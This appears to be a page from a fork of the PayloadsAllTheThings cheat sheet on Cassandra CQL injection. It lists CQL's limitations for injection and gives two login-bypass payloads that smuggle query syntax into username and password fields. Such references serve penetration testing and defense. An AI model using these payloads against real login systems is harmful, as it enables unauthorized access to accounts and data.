

repository: MnifR/PayloadsAllTheThings · page: SQL Injection/Cassandra Injection/index.html · generator: mkdocs

# Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system.

## Summary

* [CQL Injection Limitations](#cql-injection-limitations)
* [Cassandra Comment](#cassandra-comment)
* [Cassandra Login Bypass](#cassandra-login-bypass)
    * [Example #1](#example-1)
    * [Example #2](#example-2)
* [References](#references)

## CQL Injection Limitations

* Cassandra is a non-relational database, so CQL doesn't support `JOIN` or `UNION` statements, which makes cross-table queries more challenging.

* Additionally, Cassandra lacks convenient built-in functions like `DATABASE()` or `USER()` for retrieving database metadata.

* Another limitation is the absence of the `OR` operator in CQL, which prevents creating always-true conditions; for instance, a query like `SELECT * FROM table WHERE col1='a' OR col2='b';` will be rejected.

* Time-based SQL injections, which typically rely on functions like `SLEEP()` to introduce a delay, are also difficult to execute in CQL since it doesn’t include a `SLEEP()` function.

* CQL does not allow subqueries or other nested statements, so a query like `SELECT * FROM table WHERE column=(SELECT column FROM table LIMIT 1);` would be rejected.

## Cassandra Comment

```sql
/* Cassandra Comment */
```

## Cassandra Login Bypass

### Example #1

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Example #2

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```
